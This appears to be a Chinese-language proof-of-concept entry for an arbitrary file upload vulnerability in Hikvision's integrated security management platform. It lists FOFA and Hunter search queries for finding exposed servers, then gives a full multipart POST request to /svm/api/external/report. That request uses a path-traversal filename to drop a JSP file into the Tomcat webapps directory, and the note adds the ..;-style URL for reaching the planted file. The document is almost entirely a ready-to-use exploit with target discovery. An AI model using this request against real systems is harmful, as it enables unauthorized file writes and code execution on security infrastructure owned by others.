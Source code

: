 # HiKVISION 综合安防管理平台 report 任意文件上传漏洞

## 网络测绘

fofa: app="HIKVISION-综合安防管理平台"

hunter: app.name="Hikvision 海康威视 iSecure Center"

## POC / EXP

```
POST /svm/api/external/report HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5550.200 Safari/537.36 Edg/112.0.1551.59
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/test.jsp"
Content-Type: application/zip

test

------WebKitFormBoundary9PggsiM755PLa54a--
```

```
/portal/ui/login/..;/..;/test.jsp
```